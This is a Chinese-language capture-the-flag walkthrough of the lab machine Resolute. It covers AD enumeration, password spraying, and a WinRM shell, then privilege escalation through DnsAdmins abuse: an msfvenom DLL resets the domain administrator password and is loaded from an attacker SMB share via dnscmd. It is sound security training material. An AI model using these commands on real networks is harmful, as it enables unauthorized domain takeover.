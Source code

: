 ```yaml
---
description: Medium / 枚举 / DNSadmins提权
---
```


# ✔️ Resolute

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA resolute 10.129.176.63 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Nmap扫描结果中已获得了目标域名：<mark style="color:red;">**megabank.local**</mark>&#x20;

<figure><img src="../../.gitbook/assets/3 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/4 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 因为没有任何Web页面的开放端口，所以直接进行针对SMB/RPC服务的一系列的匿名登录操作，看看是否可以找到些什么信息：

```bash
# 可以成功的匿名登录，但是没有任何信息返回：
smbclient -N -L 10.129.176.63
smbmap -H 10.129.176.63
nmap --script smb-vuln* -p 139,445 10.129.176.63
rpcclient 10.129.176.63
rpcclient -U '' 10.129.176.63
```

<figure><img src="../../.gitbook/assets/5 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 之前一直没啥大用的enum4linux这次表现不错，收集到了很多有用的信息，如目标上所有的用户名还有密码策略：

```bash
enum4linux 10.129.176.63
```

<figure><img src="../../.gitbook/assets/8 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
后面复盘时意识到，此处密码策略中的Account Lockout Threshold: None，这意味着可以是用密码暴破而不用担心账户被锁定，是否有意引导我进“兔子洞”？！因为本例中的所有凭证都无需暴破。
{% endhint %}

* 在enum4linux的输出结果中，就已经找到了一个有效凭证：<mark style="color:red;">**Marko Novak : Welcome123!**</mark>

<figure><img src="../../.gitbook/assets/11 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将刚刚收集到的所有用户名全部整理成一份username.txt文件，待后续使用：

<figure><img src="../../.gitbook/assets/10 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 用Kerbrute先过一遍这个username列表，看看哪些用户名是域内有效的。29个用户名25个有效，太多了，看起来不太对，应该不是这么用的：

```bash
./kerbrute_linux_amd64 username --dc 10.129.176.63 -d megabank.local username.txt
```

<figure><img src="../../.gitbook/assets/12 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (7).png" alt=""><figcaption></figcaption></figure>

* 使用crackmapexec和刚才收集到的有效凭证登录一下目标系统的SMB服务：

```bash
crackmapexec smb 10.129.96.155 -u marko -p 'Welcome123!'
```

<figure><img src="../../.gitbook/assets/14 (6).png" alt=""><figcaption></figcaption></figure>

```bash
evil-winrm -i 10.129.96.155 -u marko -p Welcome123!
```

<figure><img src="../../.gitbook/assets/17 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 几次尝试确认自己没有输错后，发现该账户确实登录不上去，决定密码喷洒来找出是否还有其他用户账号也是用的这个密码：

```bash
crackmapexec smb 10.129.96.155 -u username.txt -p 'Welcome123!'
```

<figure><img src="../../.gitbook/assets/15 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (5).png" alt=""><figcaption></figcaption></figure>

* 找到了一个新的有效凭证：<mark style="color:red;">**melanie:Welcome123!**</mark>

### GET SHELL

* 使用evil-winrm和新的凭证登录成功：

```bash
evil-winrm -i 10.129.96.155 -u melanie -p Welcome123!
```

<figure><img src="../../.gitbook/assets/18.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单手动枚举无果后，决定上传winPEAS进行信息收集：

<figure><img src="../../.gitbook/assets/20 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (1) (1).png" alt=""><figcaption></figcaption></figure>

* winPEAS也没什么收获，上传sharphound收集，用bloodhound分析：

<figure><img src="../../.gitbook/assets/22 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/23 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 至此，仍然无任何明显收获，应该是方向错了。决定从头开始枚举，列出了之前忽略掉的隐藏目录PSTranscripts：

```powershell
dir -force
```

<figure><img src="../../.gitbook/assets/25 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 找到了一个txt文件，查看后貌似是一个日志记录的文件，是关于用户ryan的：

<figure><img src="../../.gitbook/assets/27 (1).png" alt=""><figcaption></figcaption></figure>

* 同时也在这个txt文件中发现了用户<mark style="color:red;">**ryan**</mark>的登录凭证：<mark style="color:red;">**Serv3r4Admin4cc123!**</mark>

<figure><img src="../../.gitbook/assets/28 (1).png" alt=""><figcaption></figcaption></figure>

* 使用该凭证登录ryan账户后，枚举一下这个ryan的相关信息：

<figure><img src="../../.gitbook/assets/29.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/30.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/31.png" alt=""><figcaption></figcaption></figure>

* 在ryan账户下，发现了一个note.txt文档，像是一个备忘录之类的文档，没看出什么实际作用：

<figure><img src="../../.gitbook/assets/32.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 至此无法再继续下去，看提示后知道此处是DNSadmins滥用导致的提权攻击，才注意到ryan账户是DNSadmins组的成员账户，而该组成员是有权向目标DNS写入文件的。
* 使用msfvenom制作一个DLL文件，其中包含了自定义的administrator的登录密码，然后在kali本地开启smbserver：

```bash
msfvenom -p windows/x64/exec cmd='net user administrator fiii123 /domain' -f dll > resolute.dll
```

<figure><img src="../../.gitbook/assets/33.png" alt=""><figcaption></figcaption></figure>

```bash
# 开启smbserver:
python3 smbserver.py share ./
```

<figure><img src="../../.gitbook/assets/35.png" alt=""><figcaption></figcaption></figure>

* 在目标系统上下载这个DLL文件，重启一下DNS服务，该DLL文件即可生效：

```bash
cmd /c dnscmd localhost /config /serverlevelplugindll \10.10.16.12\share\resolute.dll
```

<figure><img src="../../.gitbook/assets/34.png" alt=""><figcaption></figcaption></figure>

* 使用psexec.py和刚才自定义的新的administrator的密码登录后，成功ROOT：

<figure><img src="../../.gitbook/assets/36 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/37 (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例Get Shell阶段不难，常规的信息收集之后就能拿到。提权阶段涉及到了我的盲点，第一次遇到DNSadmins提权，查阅了一些提示和技术解析的文章后，成功root。

(本例机器中途重置过，因此IP地址有所改变，但不影响其利用过程和结果)
{% endhint %}



